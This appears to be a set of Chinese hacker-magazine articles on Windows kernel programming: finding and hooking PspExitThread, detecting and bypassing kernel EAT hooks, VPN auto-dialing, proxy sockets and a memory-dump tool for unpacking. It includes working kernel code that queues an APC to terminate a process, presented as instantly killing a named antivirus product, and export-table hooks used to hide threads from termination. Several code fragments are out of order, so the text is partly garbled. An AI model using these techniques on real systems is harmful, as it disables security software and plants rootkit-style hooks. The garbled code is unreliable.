这样我们便可以在其调用 ObOpenObjectByPointer 时让其自行了断。虽然我们知道了如何结束，但有些 AV 在 PspExitThread 的获取上做了手脚，现在的问题是如何定位到真实的 PspExitThread。下面介绍几种 PspExitThread 的获取方法及相应的绕过（Bypass）方法。

- 1）从已导出函数中用搜索特征码的方法查找。从 PsTerminateSystemThread 中找到 PspTerminateThreadByPointer，然后从 PspTerminateThreadByPointer 中搜索 PspExitThread。思路如下：

```asm
kd> u PsTerminateSystemThread L10
...
8057d832 e87b030000 call nt!PspTerminateThreadByPointer (8057e0b2)
...

搜索特征码 E8，根据公式：当前地址 + 偏移量 + 5 = Call 地址，计算出 PspTerminateThreadByPointer 地址。
```

```asm
nt!PspTerminateThreadByPointer:
...
8057c0ed ff750c      push dword ptr [ebp+0Ch]
8057c0f0 e898fcffff  call nt!PspExitThread
(8057bd8d)
```

```asm
lkd> u pspexitthread l200
nt!PspExitThread:
...
8057bdf3 e801d5f7ff  call nt!KeTerminateThread
(8049d49)
...
```

搜索特征码是 E80C75FF。这种搜索方法很简单，绕过的方法很多也很简单。SytArk 使用的方法是 EAT Hook PsTerminateSystemThread，伪代码如下：

```c
NTSTATUS MyPsTerminateSystemThread(NTSTATUS Status)
{
    PETHREAD Thread;
    Thread = PsGetCurrentThread();
    if (1 == 0) {
        __asm {
            push Thread
            push eax
            call MyPspTerminateThreadByPointer
        }
    }
    if ((ULONG)Thread == MyThread) {
        return 0;
    }
    return ((PSTERMINATESYSTEMTHREAD)(PsTerminateSystemThread))(Status);
}

NTSTATUS MyPspTerminateThreadByPointer(PETHREAD Thread, NTSTATUS Status)
{
    if (1 == 0) {
        __asm {
            push dword ptr [ebp+0Ch]
            call MyPspExitThread
        }
    }
    if ((ULONG)Thread == MyThread) {
        return 0;
    }
    return ((PSPTERMINATETHREADBYPOINTER)(PspTerminateThreadByPointer))(Thread, Status);
}

VOID MyPspExitThread(NTSTATUS Status)
{
    PETHREAD Thread;
    Thread = PsGetCurrentThread();
    if (!((ULONG)Thread == MyThread)) {
        ((PSPEXITTHREAD)(PspExitThread))(Status);
    }
}
```

这样便可以误导我们查找到 MyPspExitThread，并防御这种结束线程的方法。

- 2）堆栈回溯。我们知道 PspExitThread 会调用 KeTerminateThread：

这样，我们便可以挂钩 KeTerminateThread，然后创建一个线程，再将其用 NtTerminateThread 结束，触发 PspExitThread 调用 KeTerminateThread。为了安全起见，我们还是先判断函数是否处于 NTOSKRNL 驱动中，如果满足条件，再回溯到 PspExitThread，UnHook，最后执行原函数。

这种方法比较麻烦，BYPASS 方法也有一点麻烦。CALL Hook PspExitThread 的 call KeTerminateThread 处，然后在此跳转到我们的伪函数，这样 PspExitThread 会调用 MyKeTerminateThread，MyKeTerminateThread 再调用 KeTerminateThread，从而定位到 MyKeTerminateThread。

伪函数防杀的代码思路一般为：回溯到上一层调用的函数，判断是否为 PspExitThread，如果是的话，就执行 KeTerminateThread；如果不是，说明别人将 MyKeTerminateThread 误认为是 PspExitThread 进行调用，判断当前线程是否为保护的线程，如果是，则不进行调用。

- 3）从 Ring3 搜索。在 Ring3 下加载一份 ntoskrnl.exe，然后取 PsTerminateSystemThread 在你加载的 ntoskrnl.exe 中的地址，根据方法 1）搜索 PspExitThread 在你加载的 ntoskrnl.exe 中的地址，根据公式：真实地址 = 获取的地址 + 这个驱动所在内核地址 - 你加载的这个驱动的地址，计算出地址。代码如下：

```vb
Public Sub GetPspExitThread()
    On Error Resume Next
    Dim addr As Long
    Dim buff(0 To &H2F) As Byte, Addr2 As Long
    Dim i As Long
    hmodule = LoadLibrary("ntoskrnl.exe")
    addr = GetProcAddress(hmodule, "PsTerminateSystemThread")
    CopyMemory buff(0), ByVal CLng(addr), &H30
    For i = 0 To UBound(buff) - 1
        If buff(i) = &HE8 Then
            CopyMemory Addr2, buff(i + 1), 4
            Addr2 = Addr2 + addr + i + 5
            Get2 Addr2
            Exit For
        End If
    Next
End Sub

Public Sub Get2(ByVal addr As Long)
    On Error Resume Next
    Dim buff(0 To &H4F) As Byte, Addr2 As Long
    Dim i As Long
    CopyMemory buff(0), ByVal CLng(addr), &H50
    For i = 0 To UBound(buff) - 1
        If buff(i) = &HE8 Then
            CopyMemory Addr2, buff(i + 1), 4
            Addr2 = Addr2 + addr + i + 5
            PspExitThreadArr = Addr2 - hmodule + ntosarr
        End If
    Next
End Sub


```

前置知识：VC  
关键词：编程、VPN、自动登录

##### 另类思路解决自动连接 VPN 问题
文/图 Magic dog

很多情况下，例如扫描、自动登录等操作都会用到 VPN，但是随之而来的问题也需要解决。我们显然想要达到这个目的：自动登录指定 IP 的 VPN，拨号连接。

大家的惯性思维是找寻相关编程函数，我看网上大部分人也是导入某个 RAS 动态库，然后利用函数进行操作，但最重要的是，这种方法还不能完全实现上面的目的！

###### 编写原理与思路

在系统目录下有个名为 rasdial.exe 的文件，在命令提示符下执行帮助函数，可得到其参数说明，如图 1 所示。
图 1

我们只需要用到 3 个参数：VPN 连接名称、用户名、密码。

从这里可以得知，我们是没有自主 IP 权的。考虑系统保存 IP 的位置，在监测注册表无果后，转而考虑系统文件。我们发现关键文件路径：`C:\Documents and Settings\USERNAME\Application Data\Microsoft\Network\Connections\Pbk\rasphone.pbk`，文件内容如下：

```ini
[vpn]
Encoding=1
Type=2
AutoLogon=0
UseRasCredentials=1
DialParamsUID=80352375
Guid=9D1E6E5A44553E42A5AB645767AE17D0
BaseProtocol=1
VpnStrategy=2
ExcludedProtocols=0
……（省略部分内容）
IpPrioritizeRemote=1
IpHeaderCompression=0
IpAddress=0.0.0.0
IpDnsAddress=0.0.0.0
IpDns2Address=0.0.0.0
IpWinsAddress=0.0.0.0
IpWins2Address=0.0.0.0
IpAssign=1
IpNameAssign=1
IpFrameSize=1006
IpDnsFlags=1
IpNBTFlags=1
TcpWindowSize=0
UseFlags=0
IpSecFlags=0
IpDnsSuffix=

NETCOMPONENTS=
ms_server=1
ms_msclient=1
MEDIA=rastapi
Port=VPN2-0
Device=WAN Miniport (L2TP)

[VPN]
PhoneNumber=1.2.3.4 // 这里就是 VPN 的连接 IP 了
AreaCode=
CountryCode=1
CountryID=1
UseDialingRules=0
Comment=
LastSelectedPhone=0
PromoteAlternates=0
TryNextAlternateOnFail=1
```

```csharp
pos++;
}
if (!exist)
    return false; // 没找到
foreach (String result in rds)
{
    if (pos2 <= pos) // 继续上次的位置
    {
        pos2++;
        continue;
    }
    if (result.StartsWith("PhoneNumber="))
    {
        rds[pos2] = "PhoneNumber=" + ip + "\r";
        break;
    }
    pos2++;
}
// 重组数据
String newdata = "";
foreach (String temp in rds)
{
    newdata += temp + "\r";
}
NewStreamR.Close(); // 先关闭
StreamWriter NewStreamW = new StreamWriter(path, false); // 覆盖模式
NewStreamW.Write(newdata);
NewStreamW.Flush();
NewStreamW.Close();
return true;
}
```

可以看出这是关于一个 VPN 连接的表述信息。第一行的 `[vpn]` 标识该连接的名字。事实证明，如果我们不按照“新建网络连接”的步骤，而直接在这个文件添加类似如上描述信息，是完全可行的：打开“网上邻居”属性，会发现已经多出一个连接图标了。

现在整理一下思路：得到需要连接的 VPN 的 IP 后，我们可以通过操作文件 rasphone.pbk，选择创建一个新的连接还是改写原有连接。改写之后，再执行 `rasdial.exe VPN连接名称 用户名 密码`，就能成功连接。

##### 代码实现

我选择的是覆盖某个已建立好的 VPN 连接。覆盖函数如下：

```csharp
bool WriteIP(string ip)
{
    string path = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData);
    path += "\\Microsoft\\Network\\Connections\\Pbk\\rasphone.pbk";
    FileStream NewFile = new FileStream(path, FileMode.Open, FileAccess.ReadWrite);
    StreamReader NewStreamR = new StreamReader(NewFile); // 覆盖
    bool exist = false;
    String reader = NewStreamR.ReadToEnd();
    String[] rds = reader.Split('\n');
    int pos = 0, pos2 = 0;
    foreach (String result in rds)
    {
        if (result.StartsWith("[" + connectname + "]"))
        {
            exist = true;
            pos++;
            break;
        }
        ...
    }
}
```

这样我们就把要登录的 IP 更新好了，接下来我们开始连接 VPN。

```csharp
public bool VPNConnect()
{
    if (string.IsNullOrEmpty(IP) || string.IsNullOrEmpty(connectname) || string.IsNullOrEmpty(username) || string.IsNullOrEmpty(password))
        return false;
    WriteIP(IP);
    Process.Start("rasdial.exe " + connectname + " " + username + " " + password);
    return true;
}
```

假设归属 VPN 这个类，调用方法如下：

```csharp
VPN v = new VPN();
v.connectname = "vpn"; // 连接名字
v.IP = "127.0.0.1";
v.password = "magic";
v.username = "dog";
v.VPNConnect();
```

这样，我们就比较完美地解决了 VPN 的自动连接问题了。有这方面需要的读者，按照我上面的思路继续完善，测试看看吧。

##### 浅谈 Kernel EAT Hook 的检测与绕过

- 前置知识：VB
- 关键词：编程、Hook、Kernel EAT Hook

文/图 胡文亮（Tesla.Angela）

网上有关 Kernel EAT Hook 的资料很少，我找到的只有一个，就是《黑客防线 2009 黑客编程 VC 专辑》中的《恢复 Ring0 下的 IAT 和 EAT Hook》。不过这篇文章的全部源码都放在了驱动里，不太安全（个人认为能放在 Ring3 的代码就放在 Ring3，以保证稳定）。微点也许正是基于资料很少这个原因，才使用 EAT Hook 保护进程而不使用很大众化的 Inline Hook。本人最近研究了一段时间的 Kernel EAT Hook，想到了一个不同于上述文章的 EAT Hook 检测方法，于是写成本文，与大家分享经验。

Kernel EAT Hook 中文全称为内核导出表钩子，能修改导出内核模块导出函数的地址，以达到不可告人的目的。由于形式上是地址替换，有点像 SSDT Hook，所以我私下里把 Kernel EAT Hook 称做内核函数版 SSDT Hook（虽然 Kernel EAT Hook 和 SSDT Hook 在技术层面完全是两码事，但是只要便于自己理解，怎么说又有什么所谓呢？）。

举个实例，打开 ARK，看看在安装了微点的系统上，MmUnmapViewOfSection 和平常情况有什么不同，如图1所示。

很明显，微点把 MmUnmapViewOfSection 函数的地址替换成了自己的伪函数的地址，这和我们自己在驱动里用 MmGetSystemRoutineAddress 获得的此函数地址一模一样（微点也 EAT Hook 了 MmGetSystemRoutineAddress，但事实证明，不管是否 EAT Hook 了 MmGetSystemRoutineAddress，只要是欲得到地址的目标函数（比如上文说的 MmUnmapViewOfSection）被 EAT Hook 了，用 MmGetSystemRoutineAddress 得到的地址都是一样一样的。微点挂钩此函数的本意应该是防止 Rootkit 在驱动里动态获得某些敏感函数的地址并动态调用。但现在这么看，微点挂钩这个函数纯属多余）。

由于 EAT Hook 不是 Inline Hook，没有太多挂钩方式，所以我们只要首先用 VB 在 Ring3 得到内核模块（这里专指 ntosxxxx.exe）所有导出的函数名以及它对应的真实地址，然后获得指定函数在内存中的地址，并把这个地址传回 Ring3 再对比即可。只要发现两个地址不相同，就能认为它被挂钩了。

图1

在驱动里获得函数地址无非就是用 MmGetSystemRoutineAddress，这没有什么特别的，倒是传值的时候要注意。应该这样接收在 VB 程序里用 VarPtr（字符串）传递进驱动里的字符串：
`PCWSTR usR3IN = *(PCWSTR *)ploBuffer;`
ploBuffer 是输入/输出缓冲区指针；把数值传回 VB 程序则为：
`memcpy(ploBuffer, &ulROOUT, sizeof(ULONG));`
ulROOUT 是 ULONG 类型的数据。

在 VB 程序里接收返回值的方法并不唯一，但是下面的方法会用得比较顺。

```vb
Dim Ret As Long
With DrvController
    .IoControl, CTL_CODE_GEN(&H802), 0, 0, VarPtr(Ret), 4
    '&H802 是控制代码，Ret 就是返回值
End With
```

用 ZwQuerySystemInformation 获得系统模块信息的代码如下：

```vb
Dim ModuleInfo() As Long, HasModuleInfo As Boolean

Private Sub GetSystemModuleInformation()
    Dim Length As Long, Buff() As Long
    If HasModuleInfo = True Then
        Exit Sub
    Else
        ...
        ZwQuerySystemInformation SystemModuleInformation, 0, 0, VarPtr(Length)
        ReDim Buff(Length \ 4 - 1)
        ZwQuerySystemInformation SystemModuleInformation, VarPtr(Buff(0)), Length, 0
        ModuleInfo = Buff
        HasModuleInfo = True
    End If
End Sub
```

之后就可以用 LoadLibraryEx + GetProcAddress 获得系统例程的原始地址了；代码如下：

```vb
Public Function GetSystemRoutineAddress(ByVal RoutineName As String) As Long
    Dim KernelBase As Long, KernelName As Long, KernelShadow As Long, RVA As Long
    GetSystemModuleInformation
    KernelBase = ModuleInfo(3)    '内核基址
    KernelName = VarPtr(ModuleInfo(8)) + ModuleInfo(7) \ &H10000   '内核文件名
    KernelShadow = LoadLibraryExA(KernelName, 0, DONT_RESOLVE_DLL_REFERENCES)
    RVA = GetProcAddress(KernelShadow, RoutineName)
    FreeLibrary KernelShadow
    If RVA <> 0 Then GetSystemRoutineAddress = UAddr(USub(RVA, KernelShadow), KernelBase)
End Function
```

值得注意的是，上述代码的 KernelName 只是一个字符串指针，不能直接使用。要转成字符串，必须利用下面这个函数来实现。

```vb
Public Function StringFromPtr(ByVal pString As Long) As String
    '由字符串指针得到字符串
    Dim Buff() As Byte, Length As Long
    Length = lstrlen(pString)
    If Length = 0 Then Exit Function
    ReDim Buff(Length - 1)
    CopyMemory VarPtr(Buff(0)), pString, Length
    StringFromPtr = StrConv(Buff, vbUnicode)
End Function

Public Function GetKernelName() As String
    GetSystemModuleInformation
    GetKernelName = StringFromPtr(VarPtr(ModuleInfo(8)) + ModuleInfo(7) \ &H10000)
End Function
```

获得 PE 文件导出表的代码如下（摘自网上的一个开源模块 modPEinfo.bas）：

```vb
Public Function GetExportTable(ByVal strFilePath As String, pExportInfo As ExportInfo) As Boolean
    Dim hFile As Long
    Dim pNTHeader As IMAGE_NT_HEADERS
    Dim strTmp As String
    Dim i As Integer
    Dim pExport As IMAGE_EXPORT_DIRECTORY
    Dim bytBuffer(129) As Byte
    Dim pDosHear As IMAGE_DOS_HEADER
    Dim hAddr As Long, dwReads As Long

    Dim pSections() As IMAGE_SECTION_HEADER
    hFile = CreateFile(ByVal strFilePath, ByVal &H80000000, FILE_SHARE_READ, ByVal 0&, ByVal 3, ByVal 0&, ByVal 0&)
    If (hFile > 0) Then
        SetFilePointer hFile, 0, ByVal 0&, 0
        ReadFile hFile, pDosHear, Len(pDosHear), dwReads, ByVal 0&
        If pDosHear.Magic <> &H5A4D Then Exit Function

        SetFilePointer hFile, pDosHear.lfanew, ByVal 0&, 0
        '读取 PE IMAGE_NT_HEADERS 结构
        ReadFile hFile, pNTHeader, Len(pNTHeader), dwReads, ByVal 0&
        If pNTHeader.Signature <> IMAGE_NT_SIGNATURE Then Exit Function

        '检查是否有输入表结构
        If pNTHeader.OptionalHeader.DataEntries(0).DataRVA = 0 Then
            CloseHandle hFile
            Exit Function
        End If

        ReDim pSections(pNTHeader.FileHeader.NumberOfSections - 1)
        ReadFile hFile, pSections(0), Len(pSections(0)) * pNTHeader.FileHeader.NumberOfSections, dwReads, ByVal 0&

        For i = 0 To pNTHeader.FileHeader.NumberOfSections - 1
            '获取基数用于计算 RVA 和真实文件地址
            If pSections(i).PData <> 0 And pSections(i).VirtualAddress <> 0 Then
                mdwVAddr = pSections(i).VirtualAddress
                mdwPAddr = pSections(i).PData
                Exit For
            End If
        Next

        If mdwVAddr = 0 Or mdwPAddr = 0 Then
            CloseHandle hFile
            Exit Function
        End If

        '获取导出表文件地址
        hAddr = RvaToOffset(pSections, pNTHeader.FileHeader.NumberOfSections, pNTHeader.OptionalHeader.DataEntries(0).DataRVA)
        SetFilePointer hFile, hAddr, ByVal 0&, 0
        '读取导出表
        ReadFile hFile, pExport, Len(pExport), dwReads, ByVal 0&

        '获取模块名称文件地址
        hAddr = RvaToOffset(pSections, pNTHeader.FileHeader.NumberOfSections, pExport.Name)
        SetFilePointer hFile, hAddr, ByVal 0&, 0
        '获取模块名称
        ReadFile hFile, bytBuffer(0), 130, dwReads, ByVal 0&
        strTmp = StrConv(bytBuffer, vbUnicode)
        strTmp = Left(strTmp, InStr(strTmp, Chr(0)) - 1)
        pExportInfo.strDllName = strTmp

        ReDim pExportInfo.strFuns(pExport.NumberOfFunctions - 1)
        '遍历导出表信息
    End If
```

```vb
For i = 0 To pExport.NumberOfFunctions - 1
    hAddr = RvaToOffset(pSections, pNTHeader.FileHeader.NumberOfSections, pExport.AddressOfNames + i * 4)
    SetFilePointer hFile, hAddr, ByVal 0&, 0
    ReadFile hFile, hAddr, 4, dwReads, ByVal 0&
    hAddr = RvaToOffset(pSections, pNTHeader.FileHeader.NumberOfSections, hAddr)
    SetFilePointer hFile, hAddr, ByVal 0&, 0
    If hAddr <> 0 Then
        ReadFile hFile, bytBuffer(0), 130, dwReads, ByVal 0&
        strTmp = StrConv(bytBuffer, vbUnicode)
        strTmp = Left(strTmp, InStr(strTmp, Chr(0)) - 1)
        pExportInfo.strFuns(i) = strTmp
    Else
        pExportInfo.strFuns(i) = ""
    End If
    strTmp = ""
Next
...
CloseHandle hFile
GetExportTable = True
End Function
```

接下来就是检测 EAT Hook 的代码了，具体如下：

```vb
Public Sub ScanKernelEATHOOK()
    Dim pExportInfo As ExportInfo, i As Integer
    Dim RealFuncAddr As Long, NowFuncAddr As Long, FuncName As String
    List1.Clear
    If GetExportTable(Text1.Text, pExportInfo) Then
        If IsArrayInitialized(pExportInfo.strFuns) Then
            For i = 0 To UBound(pExportInfo.strFuns)
                '导出表的函数名
                FuncName = pExportInfo.strFuns(i)
                '函数的真实地址
                RealFuncAddr = GetSystemRoutineAddress(Trim(FuncName))
                '函数在内存中的地址
                NowFuncAddr = GetNowAddr(Trim(FuncName))
                '如果函数的真实地址不同于函数在内存中的地址，则输出被挂钩的信息
                If RealFuncAddr <> NowFuncAddr Then
                    List1.AddItem FuncName & vbTab & Hex(RealFuncAddr) & " -> " & Hex(NowFuncAddr)
                End If
            Next
        End If
    End If
End Sub
```

```c
NTSTATUS PspTerminateThreadByPointer(PETHREAD Thread)
{
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    ULONG Size = 0, i = 0;
    PKAPC pApc = 0;
    /*KeInsertQueueApc 原型*/
    BOOLEAN (*p)(PKAPC Apc, PVOID SystemArgument1, PVOID SystemArgument2, KPRIORITY Increment);
    /*KeInsertQueueApc 的地址*/
    p = (PUCHAR)AddrOfKIQA;
    if (MmIsAddressValid((PVOID)Thread) == TRUE)
    {
        pApc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
        if (pApc)
        {
            /*修改系统线程标志，0x248 是 XP 硬编码*/
            *(PULONG)((ULONG)Thread + 0x248) = 0x10;
            KeInitializeApc(pApc, Thread, OriginalApcEnvironment, ApcCallBack, 0, 0, KernelMode, 0);
            /*等效于 KeInsertQueueApc(pApc, pApc, 0, 2);*/
            (*p)(pApc, pApc, 0, 2);
        }
        st = STATUS_SUCCESS;
    }
    return st;
}


```

图2

最终完成的效果如图2所示。至于恢复 EAT Hook 就没什么好说的了，方法基本只有唯一的一种，大家自己看《恢复 Ring0 下的 IAT 和 EAT Hook》一文的代码吧。我不想说恢复 Kernel EAT Hook，只想说如何绕过 Kernel EAT Hook。个人觉得绕过 Kernel EAT Hook 比恢复容易且稳定得多。微点 EAT Hook 了 KeInsertQueueApc，由于很少 ARK 会在结束进程前恢复这个函数的 EAT Hook，导致不少初学者认为微点的自我保护很强大，其实只要把本人拙文《简单方式模拟实现 NT 系统通用的 PspTerminateProcess》的源码里调用 KeInsertQueueApc 的方式改成动态调用即可秒杀微点。

测试时，输入微点的 PID 后，微点的进程在瞬间就消失了……

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键词：编程、代理、协议

##### 浅谈 HTTP 代理环境下的两种通信方式
文/GF

无论是出于隐藏身份还是所谓的“翻墙”目的，除去 VPN，使用代理是最常规的方式之一。

###### 匿名代理

HTTP 匿名代理的通信方式较为简单，直接向代理服务器发送请求命令即可。如果为了更好地控制数据，我们可以直接使用 Socket。

我们先来看看在常规模式下，Socket 请求 HTTP 数据的代码：

```c
void getdata(char *url)
{
    WSADATA WSAData={0};
    SOCKET sockfd;
    struct sockaddr_in addr;
    struct hostent *pURL;
    char myurl[BUFSIZ];
    char *pHost=0,*pGET=0;
    char host[BUFSIZ],GET[BUFSIZ];
    char header[BUFSIZ]="";
    static char text[BUFSIZ];
    int i;
    WSAStartup(MAKEWORD(2,2), &WSAData);
    strcpy(myurl, url);
    ...
    strcat(header, "GET ");
    strcat(header, GET);
    strcat(header, " HTTP/1.1\r\n");
    strcat(header, "HOST: ");
    ...
}
```

```c
strcat(header, host);
strcat(header, "\r\nConnection: Close\r\n\r\n");
connect(sockfd,(SOCKADDR *)&addr,sizeof(addr));
send(sockfd,header,strlen(header),0);
while(recv(sockfd,text,BUFSIZ,0)>0)
{
    printf("%s",text);
    memset(text,'\0',BUFSIZ);
}
closesocket(sockfd);
WSACleanup();
```

可以看出，代码的思路为分离 URL，得到主机 IP，发送请求数据包。而我们接收到的也是基于协议的数据包，也就是说除去 HTML 代码，还有协议相关的头部数据。

接下来我们看看匿名代理模式下的通信：

```c
WSAStartup(MAKEWORD(2,2), &WSAData);
sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = inet_addr("192.168.233.136");
addr.sin_port = htons(8080);
connect(sockfd,(SOCKADDR *)&addr,sizeof(addr));
memcpy(header,"GET http://baidu.com/ HTTP/1.1\r\nHost:...",100);
send(sockfd,header,strlen(header),0);
while(recv(sockfd,text,BUFSIZ,0)>0)
{
    if(strstr(text,"200")==NULL)
    {
        printf("connect error!\n");
        return;
    }
}
```

其实与上面的代码唯一不同之处就是建立 Socket 的对象是代理服务器，而不是目的服务器。在返回的数据中，通过判断头数据是否存在字符“200”检查是否得到正确回应。

以下是 HTTPS 访问协议，在正式请求数据前，需要先 CONNECT。

```c
char ty[300]="CONNECT ";
strcat(ty,host);
strcat(ty,":80 HTTP/1.1\r\nUser-Agent:MyApp/0.1\r\n\r\n");
send(sockfd,ty,strlen(ty),0);//先发送请求
ZeroMemory(text,sizeof(text));
recv(sockfd,text,BUFSIZ,0);
```

```c
dest[outptr+2]=base64list[(silly & 0x00000FC0)>>6];
dest[outptr+3]=base64list[(silly & 0x0000003F)];
if(lastbit){
    dest[outptr+3]='=';
    if(size-i==1)
        dest[outptr+2]='=';
}
```

###### 身份认证代理

对于有身份认证的代理，处理起来就有点麻烦了，不同的代理协议不一样。CCPROXY 还好说，只是用了一个 Base64 认证，但类似 ISA 这类安全系数较高的代理就头疼了。我们先来看 CCPROXY。

前面说了，对于 ISA 如果直接使用 Socket 协议，会使得事情变得非常麻烦。微软提供了 WinInet 来帮助我们解决这个问题，代码如下：

```c
WSAStartup(MAKEWORD(2,2), &WSAData);
sockfd = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = inet_addr("192.168.233.136");
addr.sin_port = htons(8080);
connect(sockfd,(SOCKADDR *)&addr,sizeof(addr));
strcat(ty,":80 HTTP/1.1\r\nProxy-Authorization: Basic YTph\r\n\r\n");
// 注意用户名、密码区域
send(sockfd,ty,strlen(ty),0);//先发送请求
ZeroMemory(text,sizeof(text));
recv(sockfd,text,BUFSIZ,0);
```

从代码得知，只需要在 GET 数据的时候加上 `Proxy-Authorization: Basic` 加密数据。Basic 表示使用的是 basic 加密。这里注意的是加密数据的格式，它应该为：`User:password`。

Base64 加密函数如下：

```c
char base64list[]={"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"};
unsigned long silly;
bool lastbit=false;
int outptr=0;
char outputting[]={"blah"};

for(int i=0;i<size;i+=3,outptr+=4)
{
    // rip 3 bytes at a time
    if(size-i>=3){
        silly=src[i]*0x10000 + src[i+1]*0x100 + src[i+2];
    }else{
        silly=src[i]*0x10000 + src[i+1]*0x100; // stops overflows
        lastbit=true;
    }
    dest[outptr]=base64list[(silly & 0x00FC0000)>>18];
    dest[outptr+1]=base64list[(silly & 0x0003F000)>>12];
}
```

```c
CString szContent;
char strProxyList[MAX_PATH], strUsername[64], strPassword[64];
strcpy(strProxyList, "192.168.233.136:8080");
strcpy(strUsername, "aa");
strcpy(strPassword, "aa");
DWORD dwServiceType = AFX_INET_SERVICE_HTTP;
CString szServer, szObject;
INTERNET_PORT nPort;
AfxParseURL(url, dwServiceType, szServer, szObject, nPort);
CInternetSession mysession;
CHttpConnection* pConnection;
CHttpFile* pHttpFile;
pConnection = mysession.GetHttpConnection(szServer, INTERNET_FLAG_KEEP_CONNECTION, INTERNET_INVALID_PORT_NUMBER, NULL, NULL);
pHttpFile = pConnection->OpenRequest("GET", szObject, NULL, 0, NULL, NULL, INTERNET_FLAG_KEEP_CONNECTION);
INTERNET_PROXY_INFO proxyinfo;
proxyinfo.dwAccessType = INTERNET_OPEN_TYPE_PROXY;
proxyinfo.lpszProxy = strProxyList;
proxyinfo.lpszProxyBypass = NULL;
mysession.SetOption(INTERNET_OPTION_PROXY, (LPVOID)&proxyinfo, sizeof(INTERNET_PROXY_INFO));
pHttpFile->SetOption(INTERNET_OPTION_PROXY_USERNAME, strUsername, strlen(strUsername)+1);
pHttpFile->SetOption(INTERNET_OPTION_PROXY_PASSWORD, strPassword, strlen(strPassword)+1);
pHttpFile->SendRequest(NULL);
DWORD len=0;
pHttpFile->QueryInfo(HTTP_QUERY_CONTENT_LENGTH, len, 0);
pHttpFile->Read(buff,len);//得到数据


```

注意上面获取返回数据长度时不要使用 `DWORD Size=pHttpFile->GetLength();`，因为它得到的长度往往都是错误的，导致后面得到数据不完整。

---

前置知识：VC

关键词：编程、dump 工具
##### 一个简单 dump 工具的实现

文/李霞

dump 是从内存中抓取一块数据保存在硬盘中。在脱壳时到达 OEP 后就要进行 dump。自己写一个 dump 工具很简单，通过本文我们将自己实现一个控制台版的 dump 工具。

Dump 是从内存抓取数据到硬盘的，因此我们需要获知进程的 ID 和这个进程中的虚拟地址，这样才可以从内存中读出数据写入到硬盘中。既然是控制台版的程序，我们就需要提供两个参数，第一个是进程 ID，第二个是 dump 起始处的虚拟地址。有了 dump 的起始处的虚拟地址，还缺少一个 dump 的长度，这个长度也可以通过参数指定，指定我们要 dump 多大的内存数据到磁盘上。由于我们这里的 dump 是用在脱壳上的，所以 dump 的长度可以不用指定，只要获得模块的映像大小就可以了。模块映像大小可以通过下面的结构体得到：
再看一下 EBP-374 的内容：“0013F78C 00 00 40 00 00 00 01 00 C0 E8 40 00”，刚好和 MODULEINFO 结构体对应。在我们的程序里，将使用 MODULEENTRY32 这个结构体。好了，看下完整代码吧，具体如下：

```c
typedef struct tagMODULEENTRY32 {
    DWORD   dwSize;
    DWORD   th32ModuleID;
    DWORD   th32ProcessID;
    DWORD   GlblcntUsage;
    DWORD   ProccntUsage;
    BYTE    *modBaseAddr;
    DWORD   modBaseSize;   // 模块映像大小
    HMODULE hModule;
    TCHAR   szModule[MAX_MODULE_NAME32 + 1];
    TCHAR   szExePath[MAX_PATH];
    // 模块对应的磁盘文件路径
} MODULEENTRY32;

typedef MODULEENTRY32 *PMODULEENTRY32;
```

除了用这个结构体以外，我们还可以使用其他的，比如下面的结构体：

```c
typedef struct _MODULEINFO {
    LPVOID lpBaseOfDll;
    DWORD  SizeOfImage;
    LPVOID EntryPoint;
} MODULEINFO, *LPMODULEINFO;
```

在 LordPE 中使用的就是这个结构体。我们看一下 OD 里的代码：

```c
#include "stdafx.h"
#include <Windows.h>
#include <Tlhelp32.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
    if (argc != 3) {
        return 1;
    }

    // 进程 ID
    DWORD dwPid = atoi(argv[1]);

    // 通过创建进程模块快照得到该进程模块所在磁盘路径
    MODULEENTRY32 me32;
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, dwPid);
    if (INVALID_HANDLE_VALUE == hSnap) {
        return 1;
    }

    me32.dwSize = sizeof(MODULEENTRY32);
    // ...
}
```

```c
BOOL bRet = Module32First(hSnap, &me32);
if (FALSE == bRet)
{
    CloseHandle(hSnap);
    return -1;
}
printf("FullPath : %s\r\n", me32.szExePath);
printf("ImageBase : %x \r\n", me32.modBaseAddr);
printf("ImageSize : %x \r\n", me32.modBaseSize);
HANDLE hFile = CreateFile(me32.szExePath,
    GENERIC_READ, FILE_SHARE_READ, NULL,
    OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (INVALID_HANDLE_VALUE == hFile)
{
    CloseHandle(hSnap);
    return -1;
}

IMAGE_DOS_HEADER imgDos = { 0 };
DWORD dwReadNum = 0;
ReadFile(hFile, &imgDos, sizeof(IMAGE_DOS_HEADER), &dwReadNum, NULL);
if (imgDos.e_magic != IMAGE_DOS_SIGNATURE)
{
    CloseHandle(hFile);
    CloseHandle(hSnap);
    return -1;
}

SetFilePointer(hFile, imgDos.e_lfanew, 0, FILE_BEGIN);
IMAGE_NT_HEADERS imgNt = { 0 };
ReadFile(hFile, &imgNt, sizeof(IMAGE_NT_HEADERS), &dwReadNum, NULL);
if (imgNt.Signature != IMAGE_NT_SIGNATURE)
{
    CloseHandle(hFile);
    CloseHandle(hSnap);
    return -1;
}

// 在磁盘文件上的 PE 头中获取文件的映像大小
DWORD BaseSize = me32.modBaseSize;
printf("BaseSize = %x\r\n", BaseSize);
printf("me32.modBaseSize = %x\r\n", me32.modBaseSize);

/* 比较从模块获得的映像大小和磁盘文件中获取的大小是否不相等，
 * 这里主要是为了对付通过修改 me32.modBaseSize 的僵尸进程反 dump */
if (imgNt.OptionalHeader.SizeOfImage > BaseSize)
{
    BaseSize = imgNt.OptionalHeader.SizeOfImage;
}

LPVOID pBase = VirtualAlloc(NULL, BaseSize, MEM_COMMIT, PAGE_READWRITE);
if (NULL == pBase)
{
    CloseHandle(hSnap);
    return -1;
}

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
if (NULL == hProcess)
{
    VirtualFree(pBase, me32.modBaseSize, MEM_RELEASE);
    CloseHandle(hSnap);
